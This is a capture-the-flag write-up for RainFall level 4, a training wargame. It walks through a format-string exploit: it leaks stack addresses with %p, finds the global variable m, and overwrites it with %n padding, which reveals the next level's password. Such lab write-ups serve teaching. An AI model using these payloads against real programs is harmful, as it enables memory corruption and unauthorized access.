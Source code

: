 # Level 4

```asm
0x08048465      89442408       mov dword [stream], eax     ; FILE *stream
0x08048469      c74424040002.  mov dword [size], 0x200     ; [0x200:4]=-1 ; 512 ; int size
0x08048471      8d85f8fdffff   lea eax, [s]
0x08048477      890424         mov dword [esp], eax        ; char *s
0x0804847a      e8d1feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
0x0804847f      8d85f8fdffff   lea eax, [s]
0x08048485      890424         mov dword [esp], eax        ; char *format
0x08048488      e8b7ffffff     call sym.p
0x0804848d      a110980408     mov eax, dword [obj.m]      ; [0x8049810:4]=0
0x08048492      3d44550201     cmp eax, 0x1025544
0x08048497      750c           jne 0x80484a5
```

We can see that we need to change the value of the global variable `m` to `0x1025544`, `16930116` in decimal, we obviously can't just add this number of bytes in the buffer and write that with `%n`.

## Exploiting the pointer

```shell
level4@RainFall:~$ ./level4 <<< `python -c 'print "0000" + "%p "* 15'`
00000xb7ff26b0 0xbffff764 0xb7fd0ff4 (nil) (nil) 0xbffff728 0x804848d 0xbffff520 0x200 0xb7fd1ac0 0xb7ff37d0 0x30303030 0x25207025 0x70252070 0x20702520
level4@RainFall:~$ ./level4 <<< `python -c 'print "0000" + "%p "* 12'`
00000xb7ff26b0 0xbffff764 0xb7fd0ff4 (nil) (nil) 0xbffff728 0x804848d 0xbffff520 0x200 0xb7fd1ac0 0xb7ff37d0 0x30303030
```

We can see that the our buffer is 12 addresses in, let's simplify our format string:
```shell
level4@RainFall:~$ echo '0000%12$p' | ./level4
00000x30303030
```

Ok, let's now find the address of `m` and insert it into our format string.
```shell
level4@RainFall:~$ objdump -t ./level4 | grep '.bss'
08049804 l    d  .bss   00000000              .bss
08049808 l     O .bss   00000001              completed.6159
0804980c l     O .bss   00000004              dtor_idx.6161
08049804 g     O .bss   00000004              stdin@@GLIBC_2.0
08049810 g     O .bss   00000004              m 			# here
08049804 g       *ABS*  00000000              __bss_start
level4@RainFall:~$ ./level4 <<< `python -c 'import struct; print struct.pack("<Q", 0x08049810) + "%12$p"'`
0x8049810
```

## Lotta numbers

We can just use printf padding to add any number of characters we want, let's use that to get `m` to the right value:
```shell
(I put a breakpoint at `0x08048497`, on the `jne` instruction)
(gdb) r <<< `python -c 'import struct; print struct.pack("<Q", 0x08049810) + "%{}p".format(str(0x1025544)) + "%12$n"'`
[...]
Breakpoint 2, 0x08048497 in n ()
(gdb) p/x $eax
$14 = 0x1025548
(gdb) p $eax - 0x1025544
$15 = 4
```

Okay, let's try again but this time substracting -4 to our padding as we saw before
```shell
(gdb) r <<< `python -c 'import struct; print struct.pack("<Q", 0x08049810) + "%{}p".format(str(0x1025544-4)) + "%12$n"'`
[...]
/bin/cat: /home/user/level5/.pass: Permission denied
[Inferior 1 (process 19005) exited normally]
```
Bingo! Now outside of gdb

```shell
level4@RainFall:~$ ./level4 <<< `python -c 'import struct; print struct.pack("<Q", 0x08049810) + "%{}p".format(str(0x1025544-4)) + "%12$n"'`
[...]

                                              0xb7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
🥳


